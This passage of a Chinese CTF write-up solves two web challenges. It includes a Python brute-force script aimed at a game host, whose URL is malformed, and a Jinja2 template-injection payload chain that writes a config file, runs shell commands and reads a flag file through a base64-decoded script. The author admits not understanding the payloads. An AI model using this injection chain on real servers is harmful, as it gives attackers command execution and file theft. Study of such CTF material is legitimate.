 代码审计可知：  
\(1\)若当前IP与\$ip变量的内容相同，则提示信息直接退出。

\(2\)当POST中某id的键值等于’attack’时，打印\$flag。这个id为\$flag的第五个位置开始，长度为3的一个字符串。

\(3\)如果不满足\(2\)，则检查POST的变量个数，大于0则把你当前的IP加入到黑名单中（故一个IP只能攻击一次，失败了就要重新创建题目）

tips：其实这里用python脚本也可以添加代理，这样如果IP被添加到黑名单的话也不用非要重新创建赛题

直接献上代码：

```
import requests 
a = "1234567890" 
data = {} 
for i in a: 
    for j in a: 
        for k in a: 
            data[i+j+k]="attack" 
print(data) 
r=requests.post("http://http://af607c7697f54098938c60906d7323ad38823a770723442c.game.ichunqiu.com/",data=data) 
print(r.text)
```

运行即可得到flag

### [](#7-Fuzz "7.Fuzz")7.Fuzz

利用模糊测试得到参数是name  
输入\?name=test  
得到`Hello test`

先给出payload:

```
name=%7B%7B ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') %7D%7D


name=%7B%7B config.from_pyfile('/tmp/owned.cfg') %7D%7D 


name=%7B%7B%20config[%27RUNCMD%27](%27/usr/bin/id%27,shell=True)%20%7D%7D

name=%7B%7B%20config[%27RUNCMD%27](%27echo cHJpbnQgb3BlbignL3Zhci93d3cvaHRtbC9mbDRnJywncicpLnJlYWQoKQ==|base64 -d>/tmp/get.py%27,shell=True)%20%7D%7D

name=%7B%7B%20config[%27RUNCMD%27](%27python /tmp/get.py%27,shell=True)%20%7D%7D
```

还没弄懂什么意思 后边再来解释

### [](#8-Look "8.Look")8.Look

题目内容：我看的见你，你却看不见我。（非隐写）  
还给了两个提示：
